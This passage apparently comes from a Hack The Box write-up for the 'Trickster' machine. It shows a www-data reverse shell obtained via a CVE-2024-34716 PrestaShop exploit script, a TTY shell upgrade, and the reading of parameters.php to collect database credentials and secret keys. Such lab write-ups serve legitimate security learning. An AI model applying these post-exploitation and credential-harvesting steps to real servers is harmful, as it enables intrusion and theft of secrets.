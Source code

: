 ```shell
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 04:32:34 up  4:02,  0 users,  load average: 0.07, 0.12, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

With a www-data shell we can perform a simple shell upgrade in order to gain full functionality of the reverse shell. This will allow us to use tab auto-completion and history.

```shell
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@trickster:/$ 

www-data@trickster:/$ 

www-data@trickster:/$ export TERM=xterm-256color
export TERM=xterm-256color
www-data@trickster:/$ bash
bash
www-data@trickster:/$ ^Z
zsh: suspended  python3 exploit.py --url 'http://shop.trickster.htb' --email 'test@gmail.com'
                                                                                                                    
┌──(kali㉿kali)-[~/Hacking/HTB/Trickster/CVE-2024-34716]
└─$ stty raw -echo;fg                     
[1]  + continued  python3 exploit.py --url 'http://shop.trickster.htb' --email 'test@gmail.com'

www-data@trickster:/$ 
```

With some basic enumeration of the available directories, we can find a `parameters.php` file inside of the app directory for the web service. This is a PHP file used to store credentails and parameters for this specific PrestaShop instance. One of the important credentials in this file is the database connection which is hosted locally. We can see the credentials: `ps_user:prest@shop_o`

```shell
www-data@trickster:~/prestashop/app/config$ cat parameters.php 
<?php return array (
  'parameters' => 
  array (
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'prestashop',
    'database_user' => 'ps_user',
    'database_password' => 'prest@shop_o',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
    'mailer_transport' => 'smtp',
    'mailer_host' => '127.0.0.1',
    'mailer_user' => NULL,
    'mailer_password' => NULL,
    'secret' => 'eHPDO7bBZPjXWbv3oSLIpkn5XxPvcvzt7ibaHTgWhTBM3e7S9kbeB1TPemtIgzog',
    'ps_caching' => 'CacheMemcache',
    'ps_cache_enable' => false,
    'ps_creation_date' => '2024-05-25',
    'locale' => 'en-US',
    'use_debug_toolbar' => true,
    'cookie_key' => '8PR6s1SJZLPCjXTegH7fXttSAXbG2h6wfCD3cLk5GpvkGAZ4K9hMXpxBxrf7s42i',
    'cookie_iv' => 'fQoIWUoOLU0hiM2VmI1KPY61DtUsUx8g',
```